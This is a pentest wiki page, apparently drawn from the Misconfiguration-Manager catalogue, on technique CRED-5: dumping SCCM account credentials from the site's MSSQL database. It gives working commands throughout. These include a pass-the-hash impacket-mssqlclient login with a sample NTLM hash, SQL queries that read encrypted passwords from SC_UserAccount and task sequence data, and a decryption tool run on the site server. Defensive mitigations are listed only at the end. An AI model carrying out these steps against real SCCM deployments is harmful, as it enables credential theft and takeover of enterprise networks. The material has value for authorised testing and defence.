

# CRED-5 - MSSQL Database


## Document Reference

* [CRED-5](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-5/cred-5\_description.md)

### Description

Dump credentials from the site database

Site servers are granted sysadmin roles on their respective site databases. This is default and is a requirement for SCCM to function. If the site server machine account credentials have been obtained,  this  then allows for the SC\_UserAccount table to be read and obtain encrypted passwords blobs for provisioned SCCM accounts which are stored within this table. \


When this attack is performed, the encrypted data blobs must be encrypted on the site server otherwise it is not possible to decrypt them.

### Requirements

* Site database access
* Access to the private key used for encryption stored on the primary site server

## Tools Required

**Windows**&#x20;

* SQL Client (mssqlclient, SQLRecon)
* sccmdecryptpoc.exe: [https://github.com/The-Viper-One/RedTeam-Pentest-Tools/tree/main/SCCM](https://github.com/The-Viper-One/RedTeam-Pentest-Tools/tree/main/SCCM)

**Linux**

* mssqlclient


## Linux


```python
impacket-mssqlclient  -windows-auth -hashes 'aad3b435b51404eeaad3b435b51404ee:fe7f671f719978e25111c8c196662006' 'SCCMLAB/MECM$'@192.168.60.12 
```


**Dump Account Credentials**

```sql
# Connect to site database, view secrets
USE CM_[Site Code]
SELECT UserName,Password FROM SC_UserAccount
```

<figure><figcaption></figcaption></figure>

**Dump Task Sequence Data**

```sql
SELECT TS_ID, Name, Sequence FROM vSMS_TaskSequencePackage
```

<figure><figcaption></figcaption></figure>

## Windows

The same attack can be repeated as above in the Linux section for Windows when using mssqlclient.exe. At the time of writing I had issue authenticating as a machine account to the site server database using the suggested SQLRecon. If using a machine account mssqlclient.exe would be the preferred way of doing this, otherwise if you have access to a user who has admin rights of the site server database then SQLRecon or PowerUPSQL should be sufficient.


```sql
mssqlclient.exe -windows-auth -hashes "aad3b435b51404eeaad3b435b51404ee:fe7f671f719978e25111c8c196662006" "SCCMLAB/MECM$"@192.168.60.12

# Connect to site database, view secrets
USE CM_[Site Code]
SELECT UserName,Password FROM SC_UserAccount
```


<figure><figcaption></figcaption></figure>

## Decrypt Secrets

To decrypt the data, we need to run sccmdecrypt on the main site server.

```powershell
.\sccmdecrypt.net-4.5.exe [Value]
```

<figure><figcaption></figcaption></figure>


Needs to be run from an administrative shell on the main site server to decrypt the strings successfully


###

### Defensive IDs

* [PREVENT-10: Enforce the principle of least privilege for accounts](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-10/prevent-10\_description.md)
* [PREVENT-18: Use strong passwords for DBA accounts](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-18/prevent-18\_description.md)
* [PREVENT-19: Remove unnecessary links to site databases](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-19/prevent-19\_description.md)
* [PREVENT-20: Block unnecessary connections to site systems](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-20/prevent-20\_description.md)
